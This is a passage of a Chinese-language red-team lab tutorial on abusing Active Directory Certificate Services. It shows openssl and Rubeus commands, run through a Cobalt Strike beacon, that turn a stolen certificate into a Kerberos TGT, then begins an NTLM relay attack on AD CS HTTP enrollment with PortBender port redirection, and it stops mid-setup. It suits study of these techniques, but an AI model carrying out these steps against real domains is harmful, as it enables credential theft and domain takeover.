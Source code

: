 ```
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:16.3844085
```

复制整个证书（包括RSA PRIVATE KEY部分）并将其保存到Kali VM 上，取名cert.pem 。然后使用openssl命令将其转换为 pfx 格式。可以输入密码（推荐）或将其留空
```
root@kali:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```


转换cert.pfx为 base64 编码字符串：  ```cat cert.pfx | base64 -w 0```并用于```Rubeus asktgt```使用此证书请求 TGT
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /aes256 /nowrap
```

# NTLM Relaying to ADCS HTTP Endpoints

AD CS services支持HTTP注册，通常站点的结构是：

```http[s]://<hostname>/certsrv```

默认情况下支持```NTLM``` 和 ```Negotiate```身份验证

在默认配置中，这些站点容易受到 NTLM 中继攻击，一种常见的滥用方法是强制域控制器对攻击者控制器位置进行身份验证，将请求中继到 CA 并获取该 DC 的证书，然后使用它来获取 TGT

这里要注意一个点，中继攻击不能中继自己，比如说这里CA是运行在DC-1上，这意味着我们不能 PrintSpooler（或其他）DC-1 并将其中继回同一台机器并获取 DC-1 的证书。

这时，我们利用域里的另外两台机器来进行中继攻击

这里的IP和主机对应是：

10.10.15.75 -> DC-1
10.10.15.254 -> WKSTN-3.
10.10.17.25 -> SRV-1


首先，在SRV-1上设置
1. 把445端口流量重定向到8445端口
2. 启动反向端口转发，把本地8445端口转到 Team Server（也就是kali机）的445端口
3. 开启socket代理

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
                                            